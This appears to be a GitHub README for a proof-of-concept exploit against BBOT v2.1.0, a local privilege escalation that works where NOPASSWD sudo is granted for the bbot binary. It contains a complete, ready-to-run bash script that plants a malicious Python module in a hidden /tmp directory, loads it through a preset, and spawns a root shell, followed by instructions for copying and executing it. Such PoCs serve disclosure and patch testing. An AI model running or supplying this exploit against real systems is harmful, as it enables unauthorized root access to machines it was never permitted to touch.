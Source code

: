 # BBOT v2.1.0 - Local Privilege Escalation

<br><br>
<div align="center">
  <img width="300" src="https://www.blacklanternsecurity.com/bbot/Stable/bbot.png" alt="bbot-logo"> <br><br>
  <p>BBOT v2.1.0<br>
  <b>Local Privilege Escalation to Root</b> <br>
  PoC Exploit<br>
  </p>
<img src="https://www.zyenra.com/assets/img/bbot-poc-exploit-2.png">
</div>


---

### Introduction

`BBOT` version 2.1.0 allows local root privilege escalation when `sudo` rights are granted to `/usr/local/bin/bbot`.  
By injecting a malicious module and referencing it through a preset, arbitrary Python code runs as root during module loading.

This bypasses all sandboxing due to `bbot` trusting unvalidated local modules and loading them with root permissions.

---

### Usage

```bash
git clone https://github.com/rvizx/bbot-privesc
cd bbot-privesc
chmod +x exploit.sh

# usage
./exploit.sh
```


---

<div align="center"> <br> <b>OR</b> <br><br> </div>


---

Copy the following exploit code
```bash
#!/usr/bin/env bash

# Title  : BBOT v2.1.0 - Local Privilege Escalation - PoC Exploit
# Author : Ravindu Wickramasinghe (aka rvz)
# Usage  : usage: ./exploit.sh

#!/bin/bash
set -e
D="/tmp/.x"; M="x.py"; P="p.yml"; N="x"

trap 'rm -rf "$D"' EXIT

mkdir -p "$D"

cat > "$D/$M" <<EOF
from bbot.modules.base import BaseModule
import pty
class $N(BaseModule):
 async def setup(self): pty.spawn(["/bin/bash", "-p"])
EOF

cat > "$D/$P" <<EOF
description: x
module_dirs: [$D]
modules: [$N]
EOF

sudo /usr/local/bin/bbot -t x -p "$D/$P" --event-types ROOT || true
```

Save copied content to `exploit.sh` and execute
```
chmod +X exploit.sh
./exploit.sh
```


<be>
<b>Note:</b> This exploit requires `NOPASSWD` sudo access to `/usr/local/bin/bbot`.

---

### Credits

Original Vulnerability Disclosure [Link](https://seclists.org/fulldisclosure/2025/Apr/19) - Discovered by Housma Mardini <br>
PoC Exploit at [Link](https://github.com/rvizx/bbot-privesc) - Ravindu Wickramasinghe AKA rvz
